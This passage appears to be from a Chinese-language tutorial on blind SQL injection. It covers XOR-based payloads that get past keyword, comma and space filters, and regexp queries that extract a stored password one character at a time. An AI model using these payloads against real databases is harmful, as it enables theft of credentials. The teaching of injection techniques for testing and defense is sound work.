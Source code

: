  

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0axylri4hj20hr0akdkz.jpg)

这里可能还会有疑问：为什么这里不加for可以正常运行呢？

因为这里的ascii函数是默认取字符串中`第一个字符的ascii码`做为输出

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0axzzo6o1j20ff0ad779.jpg)

2、使用场景

过滤了关键字：and、or

过滤了逗号，

过滤了空格

如果这里过滤了=号的话，还可以用>或者<代替(大小的比较)

payload：`admin'^(ascii(mid((password)from(i)))>j)^('2'>'1')%23`

**如果这里过滤了%号和注释符的话，那就把最后一个引号去掉就可以和后面的引号匹配了 ‘1’=’1**

 

## 0x02 regexp注入

1、基本注入payload

select (select语句) regexp '正则'

下面举一个例子来说明一下用法：

首先正常的查询语句是这样：

`select user_pass from users where user_id = 1`

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ay2nl6mzj20ho0a7n6m.jpg)

接着进行正则注入，若匹配则返回1，不匹配返回0

`select (select user_pass from users where user_id = 1) regexp '^a'`

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ay3uhbfzj20kd0agdkz.jpg)

这里的^表示pattern的开头

接着一步步判断

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ay4giujgj20kv0b9779.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ay4q14gcj20ma0aggqf.jpg)

或者regexp这个关键字还可以代替where条件里的=号

`select from users where user_pass regexp '^a9'`

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ay6au6auj20mn0boabp.jpg)
